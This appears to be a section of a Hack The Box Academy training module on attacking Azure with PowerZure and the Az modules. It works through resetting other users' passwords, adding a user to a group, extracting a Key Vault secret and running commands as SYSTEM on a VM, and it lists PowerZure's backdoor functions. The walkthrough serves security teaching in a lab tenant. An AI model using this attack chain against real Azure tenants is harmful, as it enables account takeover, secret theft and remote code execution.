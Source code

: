 ## Azure Attacks

We have learned how to enumerate Azure resources using AzureHound, and now we need to understand how to abuse those privileges and misconfigurations to attack the Microsoft Azure cloud.

The creators of `PowerZure` developed a framework to perform enumeration and attacks in Azure environments.

[PowerZure](https://github.com/hausec/PowerZure) is a PowerShell project created to assess and exploit resources within Microsoft’s cloud platform, Azure. This project is very similar to PowerView for Active Directory. In this section, we will explore some uses of PowerZure.

While PowerZure simplifies some offensive operations in Azure, some features may not be available in PowerZure. Due to updates in the Azure cloud, they may only work once they are updated. In such cases, we can use `AzureAD` and `Az` Microsoft PowerShell modules to accomplish our goals.

For more information on using these tools, refer to the official documentation for the [AzureAD](https://learn.microsoft.com/en-us/powershell/module/azuread/?view=azureadps-2.0) and [Az](https://learn.microsoft.com/en-us/powershell/azure/new-azureps-module-az?view=azps-9.4.0) modules, and the [PowerZure project](https://powerzure.readthedocs.io/en/latest/).

## PowerZure

To use PowerZure, we need to sign in to Azure. Open a new PowerShell window as administrator and sign in using Isabella's account:

#### Connecting to Azure

```powershell
PS C:\Tools\PowerZure> $username = "Isabella.Miller@plaintexthacktheboxgmail.onmicrosoft.com" PS C:\Tools\PowerZure> $password = ConvertTo-SecureString "HacktheboxAcademy01!" -AsPlainText -Force PS C:\Tools\PowerZure> $IsabellaCreds = New-Object System.Management.Automation.PSCredential $username, $password PS C:\Tools\PowerZure> Connect-AzAccount -Credential $IsabellaCreds Account SubscriptionName TenantId Environm ent ------- ---------------- -------- -------- Isabella.Miller@plaintexthacktheboxgmail.onmicrosoft.com 92e13faa-6af8-4501-80b9-421271bc3e38 Azure..
```

**Note:** In case we had issues using the option `-Credential` we can still use `Connect-AzAccount` without options to bring up the Azure authentication window.

Then we need to import the PowerZure module:

#### Importing PowerZure

```powershell
PS C:\Tools\PowerZure> Import-Module .\PowerZure.psd1 8888888b. ,/ 8888888888P 888 Y88b ,'/ d88P 888 888 ,' / d88P 888 d88P .d88b. 888 888 888 .d88b. 888d888 ,' /____ d88P 888 888 888d888 .d88b. 8888888P" d88""88b 888 888 888 d8P Y8b 888P" .'____ ,' d88P 888 888 888P" d8P Y8b 888 888 888 888 888 888 88888888 888 / ,' d88P 888 888 888 88888888 888 Y88..88P Y88b 888 d88P Y8b. 888 / ,' d88P Y88b 888 888 Y8b. 888 "Y88P" "Y8888888P" "Y8888 888 /,' d8888888888 "Y88888 888 "Y8888 version 2.2 /' Confused on what to do next? Check out the documentation: https://powerzure.readthedocs.io/ or type Invoke-Powerzure -h for a function table. Please set your default subscription with Set-AzureSubscription if you have multiple subscriptions. Functions WILL fail if you do not do this. Use Get-AzureCurrentUser to get list your accounts roles & permissions
```

We can use `Invoke-Powerzure -h` to see all available options:

```powershell
PS C:\Tools\PowerZure> Invoke-PowerZure -h PowerZure Version 2.2 List of Functions ------------------Info Gathering ------------- Get-AzureADAppOwner ---------------- Returns all owners of all Applications in AAD Get-AzureADDeviceOwner ------------- Lists the owners of devices in AAD. This will only show devices that have an owner. Get-AzureADGroupMember ------------- Gathers a specific group or all groups in AzureAD and lists their members. Get-AzureADRoleMember -------------- Lists the members of a given role in AAD Get-AzureADUser -------------------- Gathers info on a specific user or all users including their groups and roles in Azure & AzureAD Get-AzureCurrentUser --------------- Returns the current logged in user name and any owned objects Get-AzureIntuneScript -------------- Lists available Intune scripts in Azure Intune Get-AzureLogicAppConnector --------- Lists the connector APIs in Azure Get-AzureManagedIdentity ----------- Gets a list of all Managed Identities and their roles. Get-AzurePIMAssignment ------------- Gathers the Privileged Identity Management assignments. Currently, only AzureRM roles are returned. Get-AzureRole ---------------------- Gets the members of an Azure RBAC role. Get-AzureRunAsAccount -------------- Finds any RunAs accounts being used by an Automation Account Get-AzureRolePermission ------------ Finds all roles with a certain permission Get-AzureSQLDB --------------------- Lists the available SQL Databases on a server Get-AzureTarget -------------------- Compares your role to your scope to determine what you have access to Get-AzureTenantId ------------------ Returns the ID of a tenant belonging to a domain Show-AzureKeyVaultContent ---------- Lists all available content in a key vault Show-AzureStorageContent ----------- Lists all available storage containers, shares, and tables ------------------Operational -------------- Add-AzureADGroupMember ------------- Adds a user to an Azure AD Group Add-AzureADRole -------------------- Assigns a specific Azure AD role to a User Add-AzureADSPSecret ---------------- Adds a secret to a service principal Add-AzureRole ---------------------- Adds a role to a user in Azure Connect-AzureJWT ------------------- Logins to Azure using a JWT access token. Export-AzureKeyVaultContent -------- Exports a Key as PEM or Certificate as PFX from the Key Vault Get-AzureKeyVaultContent ----------- Get the secrets and certificates from a specific Key Vault or all of them Get-AzureRunAsCertificate ---------- Will gather a RunAs accounts certificate if one is being used by an automation account, which can then be used to login as that account. Get-AzureRunbookContent ------------ Gets a specific Runbook and displays its contents or all runbook contents Get-AzureStorageContent ------------ Gathers a file from a specific blob or File Share Get-AzureVMDisk -------------------- Generates a link to download a Virtual Machiche’s disk. The link is only available for 24 hours. Invoke-AzureCommandRunbook --------- Will execute a supplied command or script from a Runbook if the Runbook is configured with a “RunAs” account Invoke-AzureCustomScriptExtension -- Runs a PowerShell script by uploading it as a Custom Script Extension Invoke-AzureMIBackdoor ------------- Creates a managed identity for a VM and exposes the REST API on it to make it a persistent JWT backdoor generator. Invoke-AzureRunCommand ------------- Will run a command or script on a specified VM Invoke-AzureRunMSBuild ------------- Will run a supplied MSBuild payload on a specified VM. Invoke-AzureRunProgram ------------- Will run a given binary on a specified VM Invoke-AzureVMUserDataAgent -------- Deploys the agent used by Invoke-AzureVMUserDataCommand Invoke-AzureVMUserDataCommand ------ Executes a command using the userData channel on a specified Azure VM. New-AzureADUser -------------------- Creates a user in Azure Active Directory New-AzureBackdoor ------------------ Creates a backdoor in Azure via Service Principal New-AzureIntuneScript -------------- Uploads a PS script to Intune Set-AzureElevatedPrivileges -------- Elevates the user’s privileges from Global Administrator in AzureAD to include User Access Administrator in Azure RBAC. Set-AzureSubscription -------------- Sets default subscription. Necessary if in a tenant with multiple subscriptions. Set-AzureADUserPassword ------------ Sets a user’s password Start-AzureRunbook ----------------- Starts a Runbook
```

In our initial enumeration, we identified a group named `Subscription Reader` owned by `Charlotte`, an account that Isabella has the right to change the password. Although we have no precise way of guaranteeing that this group has read privileges on the subscription, there is a possibility that the administrator has given read rights to this group on the subscription because of the name it has.

![text](HTB%20Enterprise/azurehound_passwordrest.jpg)

To compromise this group, we must abuse two edges: `AZResetPassword` and `AZOwns`. Let's start by modifying Charlotte's password and then using her account to add herself to the `Subscription Reader` group.

#### Password Reset Charlotte

```powershell
PS C:\Tools\PowerZure> Set-AzureADUserPassword -Username Charlotte.Moore@plaintexthacktheboxgmail.onmicrosoft.com -Password HacktheboxPwnCloud01
```

Now we need to connect to Azure using Charlotte's credentials:

#### Connect as Charlotte

```powershell
PS C:\Tools\PowerZure> $username = "Charlotte.Moore@plaintexthacktheboxgmail.onmicrosoft.com" PS C:\Tools\PowerZure> $password = ConvertTo-SecureString "HacktheboxPwnCloud01" -AsPlainText -Force PS C:\Tools\PowerZure> $CharlotteCreds = New-Object System.Management.Automation.PSCredential $username, $password PS C:\Tools\PowerZure> Connect-AzAccount -Credential $CharlotteCreds Account SubscriptionName TenantId Environment ------- ---------------- -------- ----------- Charlotte.Moore@plaintexthacktheboxgmail.onmicrosoft.com 92e13faa-6af8-4501-80b9-421271bc3e38 AzureCloud
```

With Charlotte's access, we can now add any user as a member of "Subscription Reader" for simplicity, we will add herself:

#### Adding Charlotte as a member of a group

```powershell
PS C:\Tools\PowerZure> Add-AzureADGroupMember -Group "Subscription Reader" -Username Charlotte.Moore@plaintexthacktheboxgmail.onmicrosoft.com PS C:\Tools\PowerZure> Get-AzureADGroupMember -Group "Subscription Reader" @odata.type : #microsoft.graph.user id : 0bdf0dca-c1bc-4172-857b-c7b4e539c47b deletedDateTime : accountEnabled : True ageGroup : businessPhones : {} city : createdDateTime : 2023-02-17T15:44:10Z creationType : companyName : consentProvidedForMinor : country : department : displayName : Charlotte Moore ...SNIP...
```

Now, we can enumerate the Azure tenant again with Charllote's credentials. If the group has read access for the subscription, we should discover new objects and attack paths:

#### Running AzureHound as Charlotte

```powershell
PS C:\Tools> .\azurehound.exe -u "Charlotte.Moore@plaintexthacktheboxgmail.onmicrosoft.com" -p "HacktheboxPwnCloud01" list --tenant "plaintexthacktheboxgmail.onmicrosoft.com" -o all-charlote.json AzureHound v1.2.3 Created by the BloodHound Enterprise team - https://bloodhoundenterprise.io No configuration file located at C:\Users\julio\.config\azurehound\config.json No configuration file located at C:\Users\julio\.config\azurehound\config.json 2023-02-17T13:49:52-06:00 INF collecting azure objects... 2023-02-17T13:49:53-06:00 INF finished listing all groups count=9 2023-02-17T13:49:53-06:00 INF finished listing all devices count=0 2023-02-17T13:49:53-06:00 INF finished listing all device owners 2023-02-17T13:49:53-06:00 INF finished listing all users count=11 2023-02-17T13:49:53-06:00 INF finished listing all apps count=1 2023-02-17T13:49:53-06:00 INF warning: unable to process azure management groups; either the organization has no management groups or azurehound does not have the reader role on the root management group. 2023-02-17T13:49:53-06:00 INF finished listing all management group role assignments 2023-02-17T13:49:53-06:00 INF finished listing all management group descendants 2023-02-17T13:49:53-06:00 INF finished listing all tenants count=2 2023-02-17T13:49:54-06:00 INF finished listing members for all groups 2023-02-17T13:49:54-06:00 INF finished listing all group owners 2023-02-17T13:49:54-06:00 INF finished listing all app owners 2023-02-17T13:49:54-06:00 INF finished listing all subscriptions count=1 2023-02-17T13:49:54-06:00 INF finished listing all resource groups 2023-02-17T13:49:54-06:00 INF finished listing all subscription role assignments 2023-02-17T13:49:54-06:00 INF finished listing all subscription user access admins 2023-02-17T13:49:54-06:00 ERR unable to continue processing role assignments for this role error="map[error:map[code:Request_ResourceNotFound innerError:map[client-request-id:e7dac294-f86e-4685-8a90-533ff35a8f37 date:2023-02-17T19:49:43 request-id:e7dac294-f86e-4685-8a90-533ff35a8f37] message:Resource 'a0b1b346-4d3e-4e8b-98f8-753987be4970' does not exist or one of its queried reference-property objects are not present.]]" roleDefinitionId=a0b1b346-4d3e-4e8b-98f8-753987be4970 2023-02-17T13:49:54-06:00 INF finished listing all resource group role assignments 2023-02-17T13:49:54-06:00 INF finished listing all service principals count=54 2023-02-17T13:49:54-06:00 INF finished listing all virtual machines 2023-02-17T13:49:55-06:00 INF finished listing all roles count=97 2023-02-17T13:49:55-06:00 INF finished listing all app role assignments 2023-02-17T13:49:55-06:00 INF finished listing all key vaults 2023-02-17T13:49:55-06:00 INF finished listing all service principal owners 2023-02-17T13:49:55-06:00 INF finished listing all key vault role assignments 2023-02-17T13:49:55-06:00 INF finished listing all virtual machine role assignments 2023-02-17T13:49:55-06:00 INF finished listing all role assignments 2023-02-17T13:49:55-06:00 INF collection completed duration=2.6605923s shutting down gracefully, press ctrl+c again to force
```

Let's import the output `all-charlote.json` to BloodHound and search for the `Transitive Object Control` option for Isabella one more time.

![text](HTB%20Enterprise/azurehound_newpaths.jpg)

We had 3 new object a [Key Vault](https://learn.microsoft.com/en-us/azure/key-vault/general/basic-concepts), a [Resource Group](https://learn.microsoft.com/en-us/azure/azure-resource-manager/management/manage-resource-groups-portal#what-is-a-resource-group) and a [Virtual Machine](https://learn.microsoft.com/en-us/azure/virtual-machines/overview). Let's explore how we can read the contents of the Azure Key Vault and how to execute commands in Azure VM. We will leave the resource group exercise so you can investigate how to abuse it.

## Reading an Azure Key Vault

Azure Key Vault is a cloud service for securely storing and accessing secrets. A secret is anything that you want to tightly control access to, such as API keys, passwords, certificates, or cryptographic keys.

We can use BloodHound to identify the attack path from `Isabella` to the Key Vault `HTB-SECRETPLAINTEXT96519`:

![text](HTB%20Enterprise/azurehound_keyvault_path.jpg)

To execute this attack, we will have to reset Ava Taylor's credentials, log in as Ava Taylor and then use the Powershell Az module to read the contents of the Key Vault.

To reset Ava Taylor's password, we will have to log in as Isabella:

#### Connect as Isabella

```powershell
PS C:\Tools\PowerZure> $username = "Isabella.Miller@plaintexthacktheboxgmail.onmicrosoft.com" PS C:\Tools\PowerZure> $password = ConvertTo-SecureString "HacktheboxAcademy01!" -AsPlainText -Force PS C:\Tools\PowerZure> $IsabellaCreds = New-Object System.Management.Automation.PSCredential $username, $password PS C:\Tools\PowerZure> Connect-AzAccount -Credential $IsabellaCreds Account SubscriptionName TenantId Environment ------- ---------------- -------- ----------- Isabella.Miller@plaintexthacktheboxgmail.onmicrosoft.com 92e13faa-6af8-4501-80b9-421271bc3e38 AzureCloud
```

#### Reset Ava Taylor's Credentials

```powershell
PS C:\Tools\PowerZure> Set-AzureADUserPassword -Username Ava.Taylor@plaintexthacktheboxgmail.onmicrosoft.com -Password HacktheboxPwnCloud01
```

#### Connect as Ava Taylor

```powershell
PS C:\Tools\PowerZure> $username = "Ava.Taylor@plaintexthacktheboxgmail.onmicrosoft.com" PS C:\Tools\PowerZure> $password = ConvertTo-SecureString "HacktheboxPwnCloud01" -AsPlainText -Force PS C:\Tools\PowerZure> $AvaCreds = New-Object System.Management.Automation.PSCredential $username, $password PS C:\Tools\PowerZure> Connect-AzAccount -Credential $AvaCreds Account SubscriptionName TenantId Environment ------- ---------------- -------- ----------- Ava.Taylor@plaintexthacktheboxgmail.onmicrosoft.com Azure subscription 1 92e13faa-6af8-4501-80b9-421271bc3e38 AzureCloud
```

To retrieve the password, we will use the Az PowerShell module instead of PowerZure. A Key Vault can have multiple secrets, keys, and certificates. We need to get the name of the secret within the Key Vault:

#### Search Azure Key Vault Secret name

```powershell
PS C:\Tools> Get-AzKeyVaultSecret -VaultName HTB-SECRETPLAINTEXT96519 Vault Name : htb-secretplaintext96519 Name : HTBKeyVault Version : Id : https://htb-secretplaintext96519.vault.azure.net:443/secrets/HTBKeyVault Enabled : True Expires : Not Before : Created : 2/17/2023 4:44:48 PM Updated : 2/17/2023 4:44:48 PM Content Type : Tags :
```

The name is `HTBKeyVault`. Now we need to get the secret. The secret is stored as a secure string, and we need to convert its value back to plain text.

#### Getting the Secret in the Azure Key Vault

```powershell
PS C:\Tools> $secret = Get-AzKeyVaultSecret -VaultName HTB-SECRETPLAINTEXT96519 -Name HTBKeyVault PS C:\Tools> [System.Net.NetworkCredential]::new('', $secret.SecretValue).Password ImHack1nGTooM4ch!
```

**Note:** There's an option in PowerZure to read the content of the Key Vault, but it was not working properly at the time of writing this module.

## Execute Commands in Azure VM

An Azure virtual machine gives you the flexibility of virtualization without buying and maintaining the physical hardware that runs it. However, you still need to maintain the virtual machine by performing tasks such as configuring, patching, and installing the software that runs on it.

We can use BloodHound to identify the attack path from `Isabella` to the Key Vault `AZVM-01`:

![text](HTB%20Enterprise/azurehound_VM_path.jpg)

To execute this attack, we will have to reset Madison Johnson's credentials, log in as Madison Johnson and then use the `PowerZure` module to execute command in the VM. We will also demonstrate how to do the same with the PowerShell `Az` module.

To reset Madison Johnson's password, we will have to log in as Isabella:

#### Connect as Isabella to reset Madison's password

```powershell
PS C:\Tools\PowerZure> $username = "Isabella.Miller@plaintexthacktheboxgmail.onmicrosoft.com" PS C:\Tools\PowerZure> $password = ConvertTo-SecureString "HacktheboxAcademy01!" -AsPlainText -Force PS C:\Tools\PowerZure> $IsabellaCreds = New-Object System.Management.Automation.PSCredential $username, $password PS C:\Tools\PowerZure> Connect-AzAccount -Credential $IsabellaCreds Account SubscriptionName TenantId Environment ------- ---------------- -------- ----------- Isabella.Miller@plaintexthacktheboxgmail.onmicrosoft.com 92e13faa-6af8-4501-80b9-421271bc3e38 AzureCloud
```

#### Reset Madison Johnson Credentials

```powershell
PS C:\Tools\PowerZure> Set-AzureADUserPassword -Username Madison.Johnson@plaintexthacktheboxgmail.onmicrosoft.com -Password HacktheboxPwnCloud01
```

#### Connect as Madison Johnson

```powershell
PS C:\Tools\PowerZure> $username = "Madison.Johnson@plaintexthacktheboxgmail.onmicrosoft.com" PS C:\Tools\PowerZure> $password = ConvertTo-SecureString "HacktheboxPwnCloud01" -AsPlainText -Force PS C:\Tools\PowerZure> $MadisonCreds = New-Object System.Management.Automation.PSCredential $username, $password PS C:\Tools\PowerZure> Connect-AzAccount -Credential $MadisonCreds Account SubscriptionName TenantId Environment ------- ---------------- -------- ----------- Madison.Johnson@plaintexthacktheboxgmail.onmicrosoft.com Azure subscription 1 92e13faa-6af8-4501-80b9-421271bc3e38 AzureCloud
```

To use PowerZure to execute commands on a VM, we can use the `Invoke-AzureRunCommand` commandlet with the arguments `VMName` and `Command` to specify the command we want to execute.

#### Execute Commands in Azure VM using PowerZure

```powershell
PS C:\Tools> Invoke-AzureRunCommand -VMName "AZVM-01" -Command whoami VERBOSE: Performing the operation "Invoke" on target "AZVM-01". nt authority\system
```

To use the `Az` module, we need to provide a few more arguments: `-ResourceGroupName`, which is `Production`, set `-CommandId` to `RunPowerShellScript` with `-ScriptString` and specify the command we want to run on the machine, in this case, `whoami`:

#### Execute Commands in Azure VM using Az PowerShell Module

```powershell
PS C:\Tools> Invoke-AzVMRunCommand -ResourceGroupName "PRODUCTION" -CommandId "RunPowerShellScript" -VMName "AZVM-01" -ScriptString "whoami" Value[0] : Code : ComponentStatus/StdOut/succeeded Level : Info DisplayStatus : Provisioning succeeded Message : nt authority\system Value[1] : Code : ComponentStatus/StdErr/succeeded Level : Info DisplayStatus : Provisioning succeeded Message : Status : Succeeded Capacity : 0 Count : 0
```

## Next Steps

We have had the opportunity to explore how to use BloodHound to enumerate Active Directory and Azure environments and understand the uses we can put this tool to from the perspective of red and blue teams to attack and defend.

However, these environments are constantly evolving, so we must keep up to date with the changes and how BloodHound incorporates new capabilities to help us enumerate Microsoft environments.

In the next section, we will use the knowledge gained to enumerate an Active Directory and Azure environment and answer questions using BloodHound data.

**Note:** To avoid any cost after you finish your Azure testing, we recommend you cancel your Azure subscription following these steps: [Cancel your Azure subscription](https://learn.microsoft.com/en-us/azure/cost-management-billing/manage/cancel-azure-subscription).
